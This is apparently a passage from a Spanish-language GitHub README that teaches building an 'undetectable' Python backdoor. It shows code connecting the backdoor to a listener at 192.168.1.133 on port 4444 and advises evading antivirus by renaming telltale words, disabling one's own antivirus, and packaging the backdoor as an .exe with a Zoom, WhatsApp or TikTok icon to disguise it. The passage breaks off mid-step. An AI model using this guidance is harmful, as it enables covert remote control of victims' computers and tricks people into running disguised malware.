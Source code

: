 ```bash
backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```
# Parrot (Target)
![importaMOS SYS](https://user-images.githubusercontent.com/97669969/157521319-5e84467d-18bb-4a05-a7b6-fb82149ce8a7.png)


# BACKDOOR INDETECTABLE

* A dia de hoy este backdoor sigue indetectable por el antivirus puesto que es un archivo.py, y no .exe , enseguida lo convertimos a exe.

* Como te diste cuenta en el backdoor use palabras como "backdoor" "ejecutar_comando" lo cual salta las alarmas y no es la mejor manera de desarrollar un virus un backdoor, pero aqui es una clase de desarrollo de un backdoor desde 0'.




# Y como lo hacemos indetectable?
 
 
 # La Invisibilidad, y como se consigue>?
 ```bash
Lo mejor seria usar palabras y frases cuales SOLO tu reconozcas! Sin que ningun antivirus pueda leerlos como amenazas.

```




# BACKDOOR ".EXE"


# En primer lugar dezactiva tu antivirus, para asegurar que no interrumpa el trabajo.

![antivirus](https://user-images.githubusercontent.com/97669969/157541384-efc9e133-929a-415d-93fa-640123718ea7.png)


* Necesitamos un icono , puede ser tipo zoom, whatsapp, tiktok, etc. de extension .ico 
* Todo lo pones en la misma carpeta tanto el backdoor como el icono, ex > Downloads.

* Abre cmd (dir , cd Downloads, chdir, aseguramos que todo esta presente en la carpeta Downloads.

```bash
pip -V
```
* Si no esta lo instalamos :
